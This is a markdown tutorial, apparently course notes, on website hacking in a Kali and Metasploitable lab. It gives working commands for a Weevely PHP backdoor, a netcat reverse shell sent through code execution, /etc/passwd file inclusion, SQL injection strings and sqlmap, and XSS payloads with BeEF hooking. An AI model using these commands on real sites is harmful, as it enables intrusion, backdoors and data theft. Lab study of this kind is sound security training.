 # Website Hacking

1. [Information Gathering](#information-gathering)

2. [File Vulnerabilities](#file-vulnerabilities)

3. [SQL Injection Vulnerabilities](#sql-injection-vulnerabilities)

4. [Cross Site Scripting Vulnerabilities](#cross-site-scripting-vulnerabilities)

5. [Discovering Vulnerabilities Automatically](#discovering-vulnerabilities-automatically)

For this section, the Metasploitable machine can be used with Kali, as we'll be making use of the web files stored in the former and attack it on using the latter. We can visit the Metasploitable website by simply using the IP address of the machine.

## Information Gathering

---

* [Whois Lookup](https://whois.domaintools.com/) can be used to find info about owner of target.

* [Netcraft](https://sitereport.netcraft.com/) shows the technologies used on the target.

* [Robtex](https://www.robtex.com/) shows comprehensive info about target.

* If we cannot hack our target website, we can hack other websites on the same server, to gain target access. To find websites on the same server, use Robtex DNS lookup (names pointing to same IP address).

* Knock can be used to find subdomains of target website:

```shell
knockpy google.com #shows subdomains of google.com
```

* Dirb can be used to find files & directories in target website:

```shell
man dirb #info about dirb

dirb http://10.0.2.5/mutillidae #uses default wordlist file to check directories

#this will give a list of discovered files for more info
```

## File Vulnerabilities

---

* File upload vulnerabilities allow users to upload executable files.

* Weevely can be used to generate PHP shells (backdoors) and gain access:

```shell
weevely generate 1234 /root/shell.php #generates a php shell with the password '1234'

#now the shell can be uploaded in the target website
#weevely can be used to interact with the uploaded file
#we have to give url of uploaded file and password

weevely http://10.0.2.5/dvwa/hackable/uploads/shell.php 1234 #this will give access to target file system
```

* Code execution vulnerabilities allow us to execute OS code on target server.

* Netcat can be used for this as it listens and connects computers:

```shell
nc -vv -l -p 8080 #using netcat to listen on port 8080

#now, we can try to connect from target server to our computer using the code execution vulnerability
nc -e /bin/sh 10.0.2.7 8080 #this command to be entered in the website
```

* Local file inclusion vulnerabilities allow us to read files on the same server. This can be exposed through the URL. For example, the URL can be manipulated to view the files in the directory /etc/passwd.

* Remote file inclusion vulnerabilities allow us to read files from any server. This can be done by uploading PHP shells and payloads.

## SQL Injection Vulnerabilities

---

* SQL Injection vulnerabilities can give complete access to the databases and other files. To try and discover SQL injections, we need to browse through the target and try to break each page.

* SQLi examples:

    1. ' - this can be used to break the page
    2. a' or 1=1# - the first part contains a quote to end the query, the second part is always true so it gets executed, pound sign is used to comment any query following this
    3. username' #

* SQLi can be done by manipulating the URL as well (if URL contains parameters such as = or ?, for example). Note that we have to encode special characters in URL; like converting # to %23.

* SQLMap is a tool used to exploit SQLi:

```shell
sqlmap -u "http://10.0.2.5/mutillidae/index.php?page=user-info.php&username=admin&password=passd&user-info-php-submit-button=View+Account+Details"

sqlmap --help

sqlmap -u "http://10.0.2.5/mutillidae/index.php?page=user-info.php&username=admin&password=passd&user-info-php-submit-button=View+Account+Details" --tables -D owasp10 #this will show the tables from the database 'owasp10'
```

* To prevent SQLi, one must use parameterized statements, by separating data from code.

## Cross Site Scripting Vulnerabilities

---

* XSS vulnerabilities allow us to inject JS code into the page, executed when the page loads.

* Reflected XSS are non-persistent and not stored in the website. It works only if target visits a specific URL.

* Similar to SQLi, XSS attacks can be done easily if URL contains specific parameters, or if there are text boxes in the website. For example, entering ```<script>alert("XSS")</script>``` in a text box will result in website prompting "XSS" due to the vulnerability.

* Stored XSS is persistent on the page, executed everytime it's loaded. Similar XSS attacks can be done to achieve the intended effect.

* BeEF can be used too to hook a URL and inject it into the stored XSS page. So, anyone who visits that page will be hooked to BeEF.

* To hook to BeEF, we have to simply insert the hook script with our IP into the textbox in the target website. With stored XSS attacks, anyone who visits that page will be hooked to BeEF.

* To prevent XSS vulnerabilities, minimise usage of user input in HTML and filter the input before inserting into page.

## Discovering Vulnerabilities Automatically

---
